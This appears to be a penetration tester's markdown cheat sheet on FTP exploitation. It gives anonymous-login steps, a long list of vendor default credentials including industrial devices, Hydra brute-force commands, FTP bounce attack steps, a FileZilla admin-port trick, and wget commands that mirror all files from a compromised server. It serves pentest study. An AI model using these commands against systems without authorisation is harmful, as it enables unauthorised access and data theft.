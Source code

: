```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/FTP/Exploitation
links: "[[FTP]]"
---
```


# FTP Exploitation

## Checklist

- [ ] [[Usage#Connection|Try to log in]]
    - [ ] Using [[Exploitation#Anonymous Login|anonymous login]]
    - [ ] Using [[Exploitation#Common Credentials|common credentials]]
    - [ ] Using already discovered credentials
- [ ] [[Exploitation#Brute Force|Brute force FTP login with Hydra]]

<!-- Anonymous Login {{{-->
## Anonymous Login

Anonymous login

```sh
ftp <ip>
>anonymous # Username
>anonymous # Password
>binary # Set transmission to binary
>ascii # Set transmission to ASCII
>bye # Exit
```

<!-- Example {{{-->
> [!example]-
> Anonymous Login example
>
> ```sh
> ftp -p 10.129.42.253
> ```
>
> ```sh
> Connected to 10.129.42.253.
> 220 (vsFTPd 3.0.3)
> Name (10.129.42.253:user): anonymous
> 230 Login successful.
> Remote system type is UNIX.
> Using binary mode to transfer files.
> ```
<!-- }}} -->

<!-- }}} -->

<!-- Common Credentials {{{-->
## Common Credentials

FTP default credential examples

```
anonymous:anonymous
_anonymous:
_ftp:ftp
admin:admin
root:root
ftpuser:ftpuser
test:test
```

<!-- FTP Default Password List {{{-->
> [!info]-
> FTP Default Password List
>
> [GitHub - SecLists - ftp-betterdefaultpasslist.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)
> ```sh
> anonymous:anonymous
> test:test
> root:root
> administrator:administrator
> ftpuser:ftpuser
> root:rootpasswd
> root:12hrs37
> ftp:b1uRR3
> admin:admin
> localadmin:localadmin
> admin:1234
> apc:apc
> admin:nas
> Root:wago
> Admin:wago
> User:user
> Guest:guest
> ftp:ftp
> admin:password
> a:avery
> admin:123456
> adtec:none
> admin:admin12345
> none:dpstelecom
> instrument:instrument
> user:password
> root:password
> default:default
> admin:default
> nmt:1234
> admin:Janitza
> supervisor:supervisor
> user1:pass1
> avery:avery
> IEIeMerge:eMerge
> ADMIN:12345
> beijer:beijer
> Admin:admin
> admin:1234
> admin:1111
> root:admin
> se:1234
> admin:stingray
> device:apc
> apc:apc
> dm:ftp
> dmftp:ftp
> httpadmin:fhttpadmin
> user:system
> MELSEC:MELSEC
> QNUDECPU:QNUDECPU
> ftp_boot:ftp_boot
> uploader:ZYPCOM
> ftpuser:password
> USER:USER
> qbf77101:hexakisoctahedron
> ntpupdate:ntpupdate
> sysdiag:factorycast@schneider
> wsupgrade:wsupgrade
> pcfactory:pcfactory
> loader:fwdownload
> test:testingpw
> webserver:webpages
> fdrusers:sresurdf
> nic2212:poiuypoiuy
> user:user00
> su:ko2003wa
> MayGion:maygion.com
> admin:9999
> PlcmSpIp:PlcmSpIp
> ```
<!-- }}} -->

<!-- }}} -->

<!-- Brute Force {{{-->
## Brute Force

Brute Force FTP login with Hydra

```sh
hydra -l <target_user> -P <password_list> <target_ip> ftp
```

```sh
hydra -L <users_list> -p <password> ftp://<target_ip>
```

> [!tip]
>
> Try [[Exploitation#Common Credentials|FTP Common Credentials]] and other
> [password lists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)

<!-- }}} -->

<!-- FTPBounce Attack {{{-->
## FTPBounce Attack

Some FTP servers allow the command `PORT`, that can be used to instruct the
server to connect to another FTP servers at a specified port.
This behavior can be exploited to scan which ports on a target host
are open through an FTP server.

[HackTricks - FTP Bounce Attack - Scan](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ftp/ftp-bounce-attack.html)

This behavior can be abused to make an FTP server interact with other protocols.
A file (containing a HTTP request) can be uploaded to the FTP server and sent to
an arbitrary HTTP server:

1. **Upload the request** (in a *txt* file) to the server.
   To talk with another HTTP or FTP server, the line endings need to be changed
   to `0x0d` `0x0a`

2. **Use** `REST X` **to avoid sending unwanted characters**

3. **Use** `PORT` **to connect to the arbitrary server and service**

4. **Use** `RETR` **to send the saved request to the server**

**NOTE**: It's highly possible that this will throw an error (e.g. *Socket not
writeable*), as the connection doesn't last long enough to send the data with
`RETR`. To avoid this:

- **Put the same request on after another** ([like this](https://book.hacktricks.wiki/en/files/posts.txt))
  until ~0.5MB, if sending the same HTTP request
- **Fill the request with "junk" data** relative to the protocol
- **Fill the request with a lot of null characters**

<!-- }}} -->

<!-- FileZilla Server Vulnerability {{{-->
## FileZilla Server Vulnerability

**[FileZilla](https://filezilla-project.org/) Server** usually binds to the
local administrative TCP port `14147`. If it is possible to create a tunnel
from the attacker machine to this port:

- Authenticate using a blank password
- Create a new user for the FTP service
<!-- }}} -->

<!-- FTP Post-Exploitation {{{-->
# FTP Post-Exploitation

Download all files

```sh
wget -r --user="USERNAME" --password="PASSWORD" ftp://<server_address>/
```

Download all files ([[Exploitation#Anonymous Login|Anonymous Login]])

```sh
wget -m ftp://anonymous:anonymous@<target_ip>
```

```sh
wget -m --no-passive ftp://anonymous:anonymous@<target_ip>
```
<!-- }}} -->
